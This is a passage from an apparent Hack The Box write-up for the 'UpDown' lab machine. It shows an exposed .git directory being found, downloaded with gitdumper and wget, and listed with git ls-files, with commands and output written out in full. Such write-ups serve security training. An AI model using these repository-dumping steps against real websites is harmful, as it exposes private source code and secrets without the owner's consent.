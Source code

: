 	.git/HEAD               [Status: 200, Size: 21, Words: 2, Lines: 2, Duration: 4238ms]
	```
	> `.git` - `Git` repository found
	{: .prompt-info }
2. We are able to view the contents of the `git` repository w/ [GitTools](https://github.com/internetwache/GitTools)
	- `gitdumper` - A tool that will download as much content as possible from the `.git` repository which do not have directory listing enabled.
	- `gitextractor` - A tool that will extract commits and their contents from a broken repository.
3. Download `.git` repo w/ `gitdumper`
	```
	┌──(root💀kali)-[~/tools/GitTools/Dumper]
	└─# ./gitdumper.sh http://updown.htb/dev/.git/ ~/htb/UpDown/10.10.11.177/www/updown.htb/dev/gitdumper
	###########
	# GitDumper is part of https://github.com/internetwache/GitTools
	#
	# Developed and maintained by @gehaxelt from @internetwache
	#
	# Use at your own risk. Usage might be illegal in certain circumstances.
	# Only for educational purposes!
	###########
	
	
	[*] Destination folder does not exist
	[+] Creating /root/htb/UpDown/10.10.11.177/www/updown.htb/dev/gitdumper/.git/
	[+] Downloaded: HEAD
	[-] Downloaded: objects/info/packs
	[+] Downloaded: description
	[+] Downloaded: config
	[-] Downloaded: COMMIT_EDITMSG
	[+] Downloaded: index
	[+] Downloaded: packed-refs
	[-] Downloaded: refs/heads/master
	[+] Downloaded: refs/remotes/origin/HEAD
	[-] Downloaded: refs/stash
	[+] Downloaded: logs/HEAD
	[-] Downloaded: logs/refs/heads/master
	[+] Downloaded: logs/refs/remotes/origin/HEAD
	[-] Downloaded: info/refs
	[+] Downloaded: info/exclude
	[-] Downloaded: /refs/wip/index/refs/heads/master
	[-] Downloaded: /refs/wip/wtree/refs/heads/master
	[-] Downloaded: objects/01/0dcc30cc1e89344e2bdbd3064f61c772d89a34
	[-] Downloaded: objects/00/00000000000000000000000000000000000000
	```
4. Since the `.git` directory has directory listing enabled, we can do the same w/ `wget`
	```
	┌──(root💀kali)-[~/htb/UpDown/10.10.11.177/www/gitdumper/.git]
	└─# wget -r http://updown.htb/dev/.git/
	```
5. View files in the `git` repository w/ `git ls-files`
	```
	┌──(root💀kali)-[~/htb/UpDown/10.10.11.177/www/gitdumper/.git]
	└─# git ls-files
	.htaccess